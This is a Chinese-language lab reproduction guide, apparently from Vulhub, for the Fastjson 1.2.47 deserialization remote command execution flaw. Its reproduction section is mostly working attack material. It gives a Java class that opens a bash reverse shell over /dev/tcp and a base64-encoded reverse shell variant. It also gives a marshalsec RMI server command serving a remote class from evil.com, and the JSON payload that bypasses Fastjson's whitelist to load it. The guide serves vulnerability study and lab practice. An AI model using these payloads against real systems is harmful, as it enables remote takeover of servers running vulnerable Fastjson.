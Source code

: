 # Fastjson 1.2.47 远程命令执行漏洞

## 漏洞描述

Fastjson是阿里巴巴公司开源的一款json解析器，其性能优越，被广泛应用于各大厂商的Java项目中。fastjson于1.2.24版本后增加了反序列化白名单，而在1.2.48以前的版本中，攻击者可以利用特殊构造的json字符串绕过白名单检测，成功执行任意命令。

参考链接：

- https://cert.360.cn/warning/detail?id=7240aeab581c6dc2c9c5350756079955
- https://www.freebuf.com/vuls/208339.html

## 环境搭建

Vulhub执行如下命令启动一个spring web项目，其中使用fastjson作为默认json解析器：

```shell
docker-compose up -d
```

环境启动后，访问`http://your-ip:8090`即可看到一个json对象被返回，我们将content-type修改为`application/json`后可向其POST新的JSON对象，后端会利用fastjson进行解析。

## 漏洞复现

目标环境是`openjdk:8u102`，这个版本没有`com.sun.jndi.rmi.object.trustURLCodebase`的限制，我们可以简单利用RMI进行命令执行。

首先编译并上传命令执行代码，如`http://evil.com/TouchFile.class`：

```java
// javac TouchFile.java
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"/bin/bash","-c","exec 5<>/dev/tcp/192.168.174.128/9999;cat <&5 | while read line; do $line 2>&5 >&5; done"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
```

也可以使用bash base64的方式：

```java
String[] commands = {"bash", "-c","{echo, YmFzaCAtaSA+JiAvZGV2L3RjcC8xMDEuNDMuMTQ3LjEyNy85OTk5IDA+JjE=}|{base64,-d}|{bash,-i}"};
```

然后我们借助[marshalsec](https://github.com/mbechler/marshalsec)项目，启动一个RMI服务器，监听8888端口，并制定加载远程类`TouchFile.class`：

```shell
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://evil.com/#TouchFile" 9999
```

向靶场服务器发送Payload（此处的Payload和Fastjson 1.2.24不同）：

```
{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://evil.com:8888/TouchFile",
        "autoCommit":true
    }
}
```

![image-20220223130855285](./images/202202231308359.png)

监听9999端口，接收反弹shell：

![image-20220223130812872](./images/202202231308945.png)

